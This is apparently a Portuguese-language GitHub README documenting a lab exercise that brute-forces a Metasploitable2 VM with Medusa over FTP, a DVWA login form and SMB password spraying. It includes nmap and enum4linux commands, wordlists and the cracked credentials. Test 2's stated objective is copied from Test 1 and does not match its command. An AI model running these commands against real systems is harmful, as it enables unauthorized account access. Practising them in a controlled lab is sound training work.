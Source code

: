 # Desafio1_SimulandoAtaqueBruteForce
Este repositório reúne um guia prático, scripts e wordlists para montar um laboratório com Kali Linux e Metasploitable2, executar cenários controlados de força bruta (FTP, formulário web, SMB) usando o _Medusa_, e documentar resultados e recomendações de mitigação. Destinado a fins educacionais em ambiente autorizado.

### Teste 1 — Ataque de Força Bruta em FTP com Medusa

- **Data:** 22/10/2025
- **Alvo:** 192.168.56.102
- **Serviço:** FTP (vsftpd 2.3.4)
- **Porta:** 21/tcp
- **Ferramenta:** Medusa v2.3

#### Objetivo:
Realizar ataque de força bruta simples contra o serviço FTP da Metasploitable2 utilizando usuário conhecido (`msfadmin`) e wordlist de senhas comuns.

#### Comando utilizado para análise e identificação de serviços vulneráveis no alvo:
nmap -sS -sV -O -Pn 192.168.56.102 -oN nmap_basico.txt

#### Wordlist utilizada:
wordlist_small.txt (conteúdo):
1. msfadmin
2. password
3. 123456
4. admin
5. guest
6. toor
7. letmein

#### Comando executado:
medusa -h 192.168.56.102 -u msfadmin -P wordlist_small.txt -M ftp -t 8 -f -v 6

#### Resultado: 
ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin

### Teste 2  — Brute Force em Formulário Web (DVWA)

**Data:** 22/10/2025
**Alvo:** 192.168.56.102
**Serviço:** Metasploitable 2 com DVWA ativo
**Porta:** HTTP (porta 80)
**Ferramenta:** Medusa v2.3

### Objetivo:
Realizar ataque de brute force simples contra o serviço FTP da Metasploitable 2 utilizando usuário conhecido (msfadmin) e wordlist de senhas comuns.

### Comando executado:
medusa -h 192.168.56.102 -u admin -P /home/kali/projetos/medusa-lab/wordlists/wordlist_small.txt \
-M web-form -m '/dvwa/login.php?username=^USER^&password=^PASS^&Login=Login:!Login failed' -t 5 -f

### Resultado:
ACCOUNT FOUND: [web-form] Host: 192.168.56.102 User: admin Password: password [SUCCESS]

### Teste 3  — Password Spraying no Serviço SMB

**Data:** 22/10/2025
**Alvo:** 192.168.56.102
**Serviço:** SMB
**Porta:** Porta 445
**Ferramenta:** Medusa v2.3

### Enumeração:
enum4linux -a 192.168.56.102 | tee smb_enum.txt

### Criação de wordlists (Users e passwords):
**Users:** echo -e "msfadmin\nguest\nuser\npostgres\nroot" > /home/kali/projetos/medusa-lab/wordlists/users.txt
**Passwords:** echo -e "123456\npassword\ntoor\nmsfadmin\ndvwa" > /home/kali/projetos/medusa-lab/wordlists/passwords.txt

### Comando executado:
medusa -h 192.168.56.102 -U users.txt -P passwords.txt -M smbnt -t 5 -f

### Resultado:
2025-10-22 21:53:27 ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]





